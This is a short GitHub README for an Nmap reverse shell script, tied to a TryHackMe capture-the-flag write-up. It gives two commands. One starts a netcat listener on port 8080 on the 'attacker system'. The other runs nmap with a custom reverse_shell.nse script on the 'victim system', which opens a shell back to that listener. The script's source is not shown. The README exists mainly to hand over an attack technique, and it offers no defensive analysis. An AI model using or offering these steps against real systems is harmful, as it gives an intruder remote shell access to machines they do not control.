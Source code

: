 # nmap-reverse-shell
Nmap reverse shell script

## How to execute

On attacker system, execute:
```bash
netcat -lnvp 8080
```

On victim system, execute:
```bash
nmap -p<an-open-port> <host-ip> --script=reverse_shell.nse
```

## Use case scenario:
https://surajdadral.wordpress.com/2020/11/29/tryhackme-envizon/#nmap-reverse-shell
